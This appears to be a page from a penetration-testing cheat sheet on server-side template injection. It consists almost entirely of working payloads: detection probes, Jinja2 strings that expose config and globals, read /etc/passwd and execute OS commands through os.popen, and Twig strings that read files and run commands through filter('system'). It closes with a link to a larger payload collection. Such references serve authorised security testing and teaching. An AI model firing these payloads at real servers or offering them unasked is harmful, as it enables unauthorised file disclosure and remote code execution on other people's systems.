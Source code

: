 ```yaml
---
description: >-
  Server-side Template Injection (SSTI) occurs when an attacker can inject
  templating code into a template that is later rendered by the server
---
```


# SSTI

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

#### Identify

```bash
# Check for return of 49
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
{7*7}
%{7*7}
```

#### Jinja2

```bash
# Config
{{ config.items() }}

# Globals
{{ self.__init__.__globals__.__builtins__ }}

# LFI
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

#### Twig

```bash
# Get info
{{ _self }}

# Read file
{{ "/etc/passwd"|file_excerpt(1,-1) }}

# RCE 
{{ ['id'] | filter('system') }}
```

More payloads at:[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

